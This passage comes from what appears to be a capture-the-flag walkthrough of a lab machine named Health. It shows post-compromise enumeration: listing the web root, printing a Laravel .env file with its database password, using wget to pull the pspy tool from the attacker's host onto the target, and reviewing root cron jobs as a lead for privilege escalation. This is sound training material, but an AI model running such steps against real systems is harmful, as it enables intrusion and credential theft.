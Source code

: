 There is another home directory on the box, but it’s just Gogs. There’s
nothing super interesting in susanne’s home directory.

The website files are kept in `/var/www/html`:

    
    
    susanne@health:/var/www/html$ ls
    app            composer.lock  package.json  resources   tests
    artisan        config         phpunit.xml   routes      vendor
    bootstrap      database       public        server.php  webpack.mix.js
    composer.json  node_modules   README.md     storage
    

The `.env` file has the creds for the database:

    
    
    DB_CONNECTION=mysql
    DB_HOST=127.0.0.1
    DB_PORT=3306
    DB_DATABASE=laravel
    DB_USERNAME=laravel
    DB_PASSWORD=MYsql_strongestpass@2014+
    

#### Crons

I’ll start a Python webserver hosting
[pspy](https://github.com/DominicBreuker/pspy), and upload it to Health:

    
    
    susanne@health:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-01-06 22:49:17--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64                100%[=========================>]   2.94M  2.21MB/s    in 1.3s    
    
    2023-01-06 22:49:18 (2.21 MB/s) - ‘pspy64’ saved [3078592/3078592]
    

I’ll make it executable, and run it. After showing the running processes, I’ll
look for processes starting around the new minute. There are several running
every minute:

    
    
    2023/01/06 22:51:01 CMD: UID=0    PID=4920   | /bin/bash -c sleep 5 && /root/meta/clean.sh 
    2023/01/06 22:51:01 CMD: UID=0    PID=4919   | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
    2023/01/06 22:51:01 CMD: UID=0    PID=4918   | /usr/sbin/CRON -f 
    2023/01/06 22:51:01 CMD: UID=0    PID=4917   | /usr/sbin/CRON -f 
    2023/01/06 22:51:01 CMD: UID=0    PID=4921   | sleep 5 
    2023/01/06 22:51:01 CMD: UID=0    PID=4922   | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
    2023/01/06 22:51:01 CMD: UID=0    PID=4925   | grep columns 
    2023/01/06 22:51:01 CMD: UID=0    PID=4923   | sh -c stty -a | grep columns 
    2023/01/06 22:51:01 CMD: UID=0    PID=4926   | php artisan schedule:run 
    2023/01/06 22:51:01 CMD: UID=0    PID=4928   | grep columns 
    2023/01/06 22:51:06 CMD: UID=0    PID=4929   | mysql laravel --execute TRUNCATE tasks
    
